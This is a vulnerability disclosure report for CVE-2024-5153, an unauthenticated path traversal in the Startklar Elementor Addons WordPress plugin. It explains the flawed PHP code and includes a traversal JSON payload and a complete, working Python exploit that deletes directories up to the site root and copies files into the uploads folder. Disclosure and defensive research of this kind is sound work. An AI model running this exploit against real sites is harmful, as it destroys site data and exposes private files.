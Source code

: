 # Post Report Info

- Link: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/startklar-elmentor-forms-extwidgets/startklar-elementor-addons-1715-unauthenticated-path-traversal-to-arbitrary-directory-deletion
- CVE: 2024-5153
- Bounty: $361

# Startklar Elementor Addons Unauthenticated Arbitrary File Read and Folder Deletion

The Startklar Elementor Addons plugin version: 1.7.15 is vulnerable to an Unauthenticated Path Traversal when a form with a DropZone file upload is used. This path traversal can be chained to perform 1. File Copies, potentially exposing sensitive files by placing a copy in the uploads directories and 2. Folder Deletions, causing denial of service.

## Affected Plugin

Title: Startklar Elementor Addons
Active installations: 4,000
Version: 1.7.15
Slug: startklar-elmentor-forms-extwidgets
Link: https://wordpress.org/plugin/startklar-elmentor-forms-extwidgets/

## Root Cause

### 1. dropzone_form_field.php 

In [widgets/dropzone_form_field.php](https://plugins.trac.wordpress.org/browser/startklar-elmentor-forms-extwidgets/trunk/widgets/dropzone_form_field.php) the user-controllable parameter `dropzone_hash` is vulnerable to path traversal allowing file copying and folder deletion. Inside the `sanitize_field` function user-controllable JSON is decoded and the `dropzone_hash` is obtained:

```php
$options = json_decode($value, true);

if (!empty($options["dropzone_hash"])) {
    $dropzone_hash = $options["dropzone_hash"];
}
```

This is then used to copy all the files inside of this temporary folder to a more permanent one: 

```php
$target_folder = $uploads_dir_info['basedir'] . "/elementor/forms/" . $user_id . "/temp/" . $options["dropzone_hash"] . "/*";
$files = glob($target_folder);

if (count($files)) {
    foreach ($files as $file) {
    ...
    copy($file, $new_path);
```

Following the copying logic the temporary folder is deleted:

```php
$temp_folder = $uploads_dir_info['basedir'] . "/elementor/forms/" . $user_id . "/temp/" . $options["dropzone_hash"];
require_once(ABSPATH . "wp-admin/includes/class-wp-filesystem-base.php");
require_once(ABSPATH . "wp-admin/includes/class-wp-filesystem-direct.php");
$WP_Filesystem_Direct = new \WP_Filesystem_Direct(null);
@$WP_Filesystem_Direct->delete($temp_folder, true);
```

The payload we can use will look like the following JSON:

```json
{
    "files_amount": 1,
    "allowed_file_types_for_upload": ".jpg, .pdf, .png",
    "maximum_upload_file": 10,
    "path_type": "abs_path",
    "dropzone_hash": "../../../../../"
}
```

## Proof of Concept

Note: If your WordPress instance is not setup to send mail correctly this plugin will crash trying to submit forms. This can be fixed by creating a dummy sendmail binary with the following command `touch /usr/sbin/sendmail && chmod +x /usr/sbin/sendmail`.

1. Install and activate `elementor`, `elementor-pro` and `startklar-elmentor-forms-extwidgets` plugins
2. Create a new post with elementor and add a form and ensure it has a DropZone field
    * Add New Post
    * Edit with Elementor
    * Add Form Widget
    * Add Item > Type DropZone field
    * Publish and note the page id
3. Modify the payload to match your target
```
TARGET = 'http://wordpress.local:1337'
POST_ID = 15
PATH = '../../../'
# ../../../          = /wp-content/uploads/elementor
# ../../../../       = /wp-content/uploads/
# ../../../../../    = /wp-content/
# ../../../../../../ = / (root WordPress dir)
# Note that the first two are recoverable, but the latter few are prob going to destroy your WordPress instance.
```
4. Run the PoC, note that `../../../../../../` is the most obvious as it will delete the all WordPress files and crash...

```
❯ python3 exploit.py
[+] Form ID: f0afb84
[+] Field ID: field_aa0b5ec

<p>There has been a critical error on this website.</p><p><a href="https://wordpress.org/documentation/article/faq-troubleshooting/">Learn more about troubleshooting WordPress.</a></p>
```

5. Note that while this payload will delete the target folder (or attempt to), it will also copy all files into the uploads folder first. So this can be used to exfiltrate files from other directories.

### Python PoC

```python
import re
from io import BytesIO

import requests

"""
Author: Mat Rollings (stealthcopter)
Website: sec.stealthcopter.com
"""

TARGET = 'http://wordpress.local:1337'
POST_ID = 15
PATH = '../../../../../pyslurper/'
# ../../../          = /wp-content/uploads/elementor
# ../../../../       = /wp-content/uploads/
# ../../../../../    = /wp-content/
# ../../../../../../ = / (root WordPress dir)
# Note that the first two are recoverable, but the latter few are prob going to destroy your WordPress instance.

session = requests.session()


# Proxy can be uncommented here for debugging:
# session.proxies = {'http': 'http://localhost:8080'}


def dummy_upload(field_id):
   # Create a fake JPG file in memory
   fake_file = BytesIO(b'AAAA')
   fake_file.name = 'hello.jpg'

   files = {
      'file': ('hello.jpg', fake_file, 'image/jpeg')
   }
   data = {
      'hash_961': field_id
   }

   response = requests.post(f'{TARGET}/wp-admin/admin-ajax.php?action=startklar_drop_zone_upload_process', files=files,
                            data=data)

   print(response.text)


def get_form_id(post_id):
   r = session.get(f'{TARGET}/?p={post_id}')
   nonce_pattern = r'name="form_id" value="([a-zA-Z0-9]+)"'
   nonce = re.search(nonce_pattern, r.text)
   return nonce.group(1)


def get_field_id(post_id):
   r = session.get(f'{TARGET}/?p={post_id}')
   nonce_pattern = r'name="form_fields\[(field_[a-zA-Z0-9]+)\]"'
   nonce = re.search(nonce_pattern, r.text)
   return nonce.group(1)


def do_delete(post_id, form_id, field_id, path):
   data = {
      'action': 'elementor_pro_forms_send_form',
      'post_id': post_id,
      'queried_id': post_id,
      'form_id': form_id,
      f'form_fields[{field_id}]': '{"files_amount":1,"allowed_file_types_for_upload":".jpg, .pdf, .png, .php","maximum_upload_file":10,"path_type":"abs_path","dropzone_hash":"' + path + '"}',
   }

   r = session.post(f'{TARGET}/wp-admin/admin-ajax.php', data=data)

   print(r.text)


def exploit():
   form_id = get_form_id(POST_ID)
   if not form_id:
      print('[!] Error could not get form id')
      return False

   print(f'[+] Form ID: {form_id}')

   field_id = get_field_id(POST_ID)
   if not field_id:
      print('[!] Error could not get field id')
      return False

   print(f'[+] Field ID: {field_id}')

   # Need a dummy upload so that the path exists...
   dummy_upload(field_id)

   do_delete(POST_ID, form_id, field_id, PATH)


exploit()
```